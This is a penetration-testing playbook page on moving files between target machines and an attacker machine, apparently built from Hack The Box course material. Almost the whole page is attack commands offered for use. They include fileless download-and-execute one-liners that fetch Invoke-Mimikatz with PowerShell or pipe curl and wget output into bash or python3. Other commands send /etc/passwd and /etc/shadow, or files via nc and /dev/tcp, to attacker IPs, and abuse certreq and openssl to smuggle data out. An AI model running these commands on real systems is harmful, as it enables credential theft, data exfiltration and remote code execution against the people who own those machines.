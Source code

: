```yaml
---
slug: /playbooks/file-transfer
pagination_next: null
pagination_prev: null
---
```

# File transfer

How to extract/send files from the machines to the attacker machine.

See https://academy.hackthebox.com/module/24 or https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration
for complete reference

## Base64 encode/decode

If the payload to transmit is small enough, do base64 encode/decode and later check md5 hashes match

```bash
base64 -w0 <file> #Encode file
base64 -d file #Decode file
```

## Powershell

Complete reference: https://gist.github.com/HarmJ0y/bb48307ffa663256e239

```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

Fileless method: it does not touch the disk

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

Upload, powershell does not have a native cmdlet to perform HTTP uploads, however we can install this feature

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

Upload with base64:

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

Upload via FTP:

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

## Samba

Start a impacket samba server on the attacker machine:

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

Note: the folder will not be created automatically, so you might want to create it beforehand.

Then to download a file from the attack machine to the target machine:

```powershell
copy \\192.168.220.133\share\nc.exe
```

Or to upload a file from the target machine to the attack machine

```powershell
copy upload_win.txt \\192.168.220.133\share
```

If the samba ports are blocked, it's worth trying with WebDAV which runs SMB over HTTP.

Attacker machine:

```bash
sudo pip install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

Target machine:
```powershell
dir \\192.168.49.128\DavWWWRoot
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

Note: `DavWWWRoot`` is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.

You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder

## ftp

Start a FTP server in the attacker:

```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21
```

By default it will try to run at port 2121, so we need to explicitly say port 21 (and sudo).

At the target machine, we can use powershell cmdlet:

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
If the shell is not interactive, we'll need to create a file with the FTP commands, e.g.:

```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```

## wget

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
# fileless wget
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## curl

```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
# fileless curl
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

## nc
```bash
nc -lvnp 9002 > SharpKatz.exe #Inside receiver
nc -q 0 192.168.49.128 9002 < SharpKatz.exe #In sender
```

## dev/tcp

As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

```bash
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
cat <&3

cat metabase.db.trace.db > /dev/tcp/10.10.14.102/9002 # Send the file
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe # Receive the file
```

## python

Attacker machine runs HTTP(s) server

```bash
sudo python3 -m pip install --user uploadserver
python3 -m http.server 5555
sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```

Target machine uploads file:

```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Self-signed certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

## Living off The Land

You can abuse of binaries supposed to perform an action to escape from some prohibited binaries. This is same concept as the privilege escalation using GTFObins.

You can use:
- https://lolbas-project.github.io/# for windows
- https://gtfobins.github.io/ for Linux

For example, for Windows we can use `certreq.exe`:

```powershell
certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
```

For example in Linux, you can abuse `openssl`:


On attacker:
```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

On target:
```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```
